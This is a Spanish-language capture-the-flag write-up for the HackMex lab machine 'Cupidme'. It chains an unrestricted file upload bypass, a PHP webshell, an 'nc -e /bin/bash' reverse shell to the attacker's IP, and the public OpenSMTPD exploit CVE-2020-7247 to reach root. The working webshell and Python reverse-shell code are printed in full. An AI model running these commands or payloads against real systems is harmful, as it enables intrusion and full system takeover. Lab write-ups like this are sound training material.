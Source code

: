 # Cupidme - HACKMEX

**OS**: Linux   
**Dificultad**: Basic   
**Puntos**: 5,550   
**Solucionado por**: xeniel
## Resumen 
- Unrestricted File Upload 
- OpenSMTPD - Remote Code Execution 

## Nmap Scan

`nmap 10.10.10.205` 

```
xen@xen-env:~/hackmex$ nmap 10.0.30.187
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-19 13:25 CDT
Nmap scan report for 10.0.30.187
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.37 seconds
xen@xen-env:~/hackmex$
```
## Enumeracion 

Enumerando el puerto 80 podemos observar dentro del codigo fuente el siguiente mensaje

```
<!--<form action="upload.php" method="post" enctype="multipart/form-data"> Select image to upload:<br/><input type="file" name="image" id="image"><input type="submit" value="Upload Image" name="submit"></form>-->
```

Haciendo un analisis del codigo fuente, vemos que hace un action hacia el archivo upload.php, en donde realiza una subida de archivos. Asi que probemos como reacciona a nuestra solicitud.

## Unrestricted File Upload

1er intento. Subimos un archivo sencillo

`curl -F "image=@file.txt" http://10.0.30.187/upload.php`

```
Array
(
    [0] => Mimetype not allowed, please upload an image/jpeg file.
)
```

2do intento. Subimos un archivo php con cabecera jpeg

`curl -F "image=@xen.php" http://10.0.30.187/upload.php`

```
Success. file uploaded at images/xen.php
```

Una vez subido con exito nuestra webshell, podemos ejecutar comandos remotamente.

`curl http://10.0.30.187/images/xen.php?xen=id`

```
����
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ahora probamos una revershell

`curl "http://10.0.30.187/images/xen.php?xen=nc -e /bin/bash 10.10.0.26 2121"`

De nuestro lado recibiremos la conexion

```
xen@xen-env:~/hackmex$ nc -lvp 2121
listening on [any] 2121 ...
10.0.30.187: inverse host lookup failed: Unknown host
connect to [10.10.0.26] from (UNKNOWN) [10.0.30.187] 56334
```

## OpenSMTPD - Remote Code Execution 

Viendo los servicios locales observamos un puerto muy relevante

```
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
LISTEN    0         128             127.0.0.11:41037            0.0.0.0:*       
LISTEN    0         128                0.0.0.0:80               0.0.0.0:*       
LISTEN    0         5                127.0.0.1:25               0.0.0.0:*       
LISTEN    0         128              127.0.0.1:9001             0.0.0.0:* 
```

Probando los puertos observamos lo siguiente

```
www-data@cupidme:/tmp$ nc 127.0.0.1 25 
nc 127.0.0.1 25 
220 cupidme.echocity-f.com ESMTP OpenSMTPD
```
Tratando de un servicio llamado OpenSMTP, por lo que buscando un exploit publico damos con el siguiente: [CVE-2020-7247](https://www.exploit-db.com/raw/47984)

Ejecutamos el exploit y esperamos conexion reversa
```
www-data@cupidme:/tmp$ python3 xen.py 127.0.0.1 25 "python3 /tmp/reverse.py"
python3 xen.py 127.0.0.1 25 "python3 /tmp/reverse.py"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
www-data@cupidme:/tmp$ 
```

Pwn!!

```
xen@xen-env:~/hackmex$ nc -lvp 2222
listening on [any] 2222 ...
10.0.30.187: inverse host lookup failed: Unknown host
connect to [10.10.0.26] from (UNKNOWN) [10.0.30.187] 44170
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

## Archivos utilizados 

**xen.php**
```php
����
<?php system($_GET['xen']);?>
```

**reverse.php**
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.26",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

